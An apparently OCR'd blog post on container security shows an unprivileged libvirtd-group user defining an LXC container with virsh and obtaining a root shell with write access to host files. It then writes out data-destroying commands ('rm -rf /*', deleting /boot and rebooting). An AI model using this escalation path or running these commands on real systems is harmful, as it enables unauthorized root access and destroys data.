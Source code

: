 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:
{% highlight bash %}

  # apt-get install docker virt-manager
  # export LIBVIRT_DEFAULT_URI=lxc:///
  
{% endhighlight %}

Create an unprivileged user:
```
  # useradd -G libvirtd user 
```
Save the following domXML template
```
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
```
Import container into Libvirt:
```
  user@host:~$ virsh define container.xml
```
Start the container:
```
  user@host:~$ virsh start test
  user@host:~$ virsh console test
```
And now run bash shell:
```
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
```
Huh? You now have root. What kind of messed up world is this? I can read/write to any file:

```
  root@host:/# rm -rf /*
```

Or alternatively have a bit of fun
```
  root@host:/# rm /boot/*; reboot;
```

Is it possible to be careful with Docker? It doesn't seem safe for mortals.
```
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
